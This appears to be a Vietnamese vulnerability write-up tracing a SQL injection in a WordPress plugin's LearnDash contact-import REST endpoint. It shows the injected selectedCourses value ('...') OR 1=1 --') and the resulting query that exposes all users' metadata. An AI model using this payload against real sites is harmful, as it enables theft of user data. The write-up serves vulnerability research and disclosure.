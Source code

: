 1. `POST /wp-json/mrm/v1/contacts/import/learndash/map` được gửi tới REST API cùng tham số bắt buộc `selectedCourses`.
2. `map_contacts_with_learndash(WP_REST_Request $request)` là callback được gọi:

* Nhận `$request` làm tham số đầu vào.
* Lấy các tham số của `$request` chuyển thành mảng `$params`

3. Callback gọi `retrieve_contacts_associated_with_learndash()` với đối số là `$params`.
4. `retrieve_contacts_associated_with_learndash()` gọi `get_wp_users_by_learndash_with_limit_offset($courses, $number = 5, $offset = 0)`:

* `$courses` = `$params['selectedCourses']`, `$number` = `5`
* `$keys` là một mảng được tạo ra bằng cách lấy tất cả giá trị `value` trong `$courses`, sau đó ghép chuỗi theo mẫu `course_{COURSE_ID}_access_from`
* Trước khi đưa vào câu query, mảng `$keys` được nối thành một chuỗi bằng hàm `implode()`. Nếu `$keys` chỉ có một phần tử, kết quả của `implode()` chính là giá trị chuỗi của phần tử đó.

5. Thực thi query, trả về JSON chứa `formatted_users` + `total_users`

## Exploit

Sau khi phân tích, ta thấy tham số `selectedCourses` được xử lý qua nhiều logic trước khi truyền vào query chứa SQLi, quan trọng ta vẫn kiểm soát được giá trị của key `value`.

**POST request qua BurpSuite**:
Ta gửi request với một key duy nhất => dễ dàng kiểm soát câu query.

{{< figure src="request_success.png" caption="Get all user info" alt="Get all user info" >}}

Khi đó, câu query trở thành:

```sql
SELECT user_id 
FROM wp_usermeta 
WHERE meta_key IN ('course_abc') OR 1=1 -- _access_from') GROUP BY user_id LIMIT 5 OFFSET 0
```

* `')` thoát khỏi `IN`
* `1=1` luôn đúng => trả về tất cả `user_id` trong `wp_usermeta`

Đoạn code còn lại trong `get_wp_users_by_learndash_with_limit_offset` sẽ truy vấn meta thông tin của tất cả user trả về:

```php
$formatted_users = array_map(
    function ($user) {
        $user->usermeta = array_map(
            function ($user_data) {
                return reset($user_data);
            },
            get_user_meta($user->ID)
        );
        return $user;
    },
    $contacts
);
```

